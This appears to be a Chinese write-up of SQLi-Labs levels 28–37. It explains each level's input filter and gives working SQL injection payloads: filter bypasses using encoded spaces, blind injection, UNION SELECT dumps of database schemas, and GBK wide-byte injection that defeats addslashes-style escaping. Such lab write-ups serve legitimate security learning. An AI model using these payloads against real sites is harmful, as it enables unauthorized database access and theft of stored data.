



### 28
1和1"正常回显，1'报错，单引号字符型。
2'&&'1'='1回显为id=1，有小括号。因为当你有小括号的时候
`$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`变成
`$sql="SELECT * FROM users WHERE id=('2'&&'1'='1') LIMIT 0,1";`
所以会变成id=1
看了下代码
```php
$id = blacklist($id);
$hint = $id;
function blacklist($id)
{
    $id= preg_replace('/[\/\*]/',"",$id);               //strip out /*
    $id= preg_replace('/[--]/',"",$id);                 //Strip out --.
    $id= preg_replace('/[#]/',"",$id);                  //Strip out #.
    $id= preg_replace('/[ +]/',"",$id);                 //Strip out spaces.
    $id= preg_replace('/[ +]/',"",$id);                 //Strip out spaces.
    $id= preg_replace('/union\s+select/i',"",$id);      //Strip out UNION & SELECT.
    return $id;
}
```
过滤了相连的union和select，这个可以复写绕过，或者使用其他代替空格,如下都可能可以代替空格
```
%0a
%0d
%20
%0b
%a0
/%0a/
```
这题可以用%0a，使用%00截断
可以盲注
```
0')||left(database(),1)>'s';%00
```
也可以绕过union select直接注入
```
333')union%a0select(1),(database()),(3)||('1
```

解释：
```
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
$sql="SELECT * FROM users WHERE id=('333')union%a0select(1),(database()),(3)||('1') LIMIT 0,1";
```
前面的333可以尽量大一些，不能用-1。
### 28-a
感觉就像看错了题？28-a居然是在 Less 28 的基础上还注释掉了很多过滤。这样28的payload肯定可以直接打
给出一个强一点的过滤
```php
$id = blacklist($id);
$hint = $id;
function blacklist($id)
{
    $id = preg_replace('/or/i',"",$id);
    $id = preg_replace('/and/i',"",$id);
    $id = preg_replace('/[\/\*]/',"",$id);
    $id = preg_replace('/[--]/',"",$id);
    $id = preg_replace('/[#]/',"",$id);
    $id = preg_replace('/[\/\\\\]/',"",$id);
    $id = preg_replace('/[ +]/',"",$id);
    $id = preg_replace('/[\s]/',"",$id);
    $id = preg_replace('/select/i',"",$id);
    $id = preg_replace('/union/i',"",$id);
    $id = preg_replace('/union\s+select/i',"",$id);
    return $id;
}
```
末尾\i就会导致不区分大小写，统统过滤
### 29
比较智障了吧，好像过滤什么，直接注入
```
0%27union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata%23
```
### 30
同上，只是单引号变双引号
```
0"union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata%23
```
### 31
同上，只是双引号加了括号
```
0")union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata%23
```

### 宽字节注入
国内最常使用的 GBK 编码，这种方式主要是绕过 addslashes 等对特殊字符进行转移的绕过。mysql在使用GBK编码的时候，会认为两个字符为一个汉字，例如%df%5c就是一个汉字。反斜杠 \ 的十六进制为 %5c，在你输入 %bf%27 时，函数遇到单引号自动转移加入 \，此时变为 %bf%5c%27，%bf%5c 在 GBK 中变为一个宽字符「縗」。%bf 那个位置可以是 %81-%fe 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。
先了解addslashes() 函数，就是转义函数
```php
<?php
$str = addslashes('Shanghai is the "biggest" city in China.');
echo($str);
?>
```
输出
```
Shanghai is the \"biggest\" city in China.
```
内部实现就是
```php
$string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
$string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
$string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
```
所以我们输入
```
http://127.0.0.1/Less-32/?id=1%df'
```
根据以上分析，发生如下转换：(%5c是`\`的十六进制)
```
%df%27====>(check_addslashes)====>%df%5c%27====>(GBK)====>運'
```
```
$sql="SELECT * FROM users WHERE id='1運'' LIMIT 0,1"; #成功将单引号闭合，可以进行SQL注入。
```
[参考1：https://www.cnblogs.com/fengshui/p/9266830.html](https://www.cnblogs.com/fengshui/p/9266830.html)
[参考2：https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html](https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html)

### 32

输入`?id=1%df%27`页面会报错说明单引符号起作用了。c
`?id=-1%df%27%20union%20select%201,2,3%20%23`,有回显所以可以款字节注入
```
?id=0%df%27 union select 1,group_concat(schema_name),2 from information_schema.schemata;%23
```
### 33
和上同，只是把自定义的转义函数改成内置的转义函数
```
?id=0%df%27 union select 1,group_concat(schema_name),2 from information_schema.schemata;%23
```
### 34
把get改成post了，注意不能直接在界面上输入，因为%什么的都会会浏览器转义，所以burp直接修改

```
admin%df'or 0 union select 1,group_concat(schema_name) from information_schema.schemata%23&passwd=&submit=Submit
```
### 35
直接注入？回到第一关了233
```
0 union selEct 1,group_concat(schema_name),2 from information_schema.schemata;%23
```
### 36
使用了mysql_real_escape_string函数过滤
查看文档,下列字符受影响：
```
\x00
\n
\r
\
'
"
\x1a
```
还是宽字节注入
```
0%df%27%20union%20selEct%201,group_concat(schema_name),2%20from%20information_schema.schemata;%23
-1%EF%BF%BD%27union%20select%201,user(),3--+
```
### 37
改成post
```
uname=0%df%27%20union%20selEct%20group_concat(schema_name),2%20from%20information_schema.schemata;%23&passwd=1&submit=Submit
```
[下一篇-38-题详解](README8.md)
更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)
